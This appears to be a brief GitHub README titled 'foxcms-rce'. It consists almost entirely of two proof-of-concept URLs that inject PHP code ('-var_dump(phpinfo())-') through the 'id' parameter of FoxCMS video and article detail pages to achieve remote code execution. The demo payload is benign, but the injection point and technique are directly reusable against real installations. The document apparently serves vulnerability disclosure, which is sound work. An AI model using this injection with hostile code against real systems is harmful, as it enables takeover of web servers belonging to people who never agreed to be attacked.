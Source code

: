 # foxcms-rce
poc:  
http://192.168.128.128/video/detail.html?id=%27-var_dump%28phpinfo%28%29%29-%27  
http://192.168.128.128/article/detail.html?id=%27-var_dump%28phpinfo%28%29%29-%27  
![img01](./images/img01.png)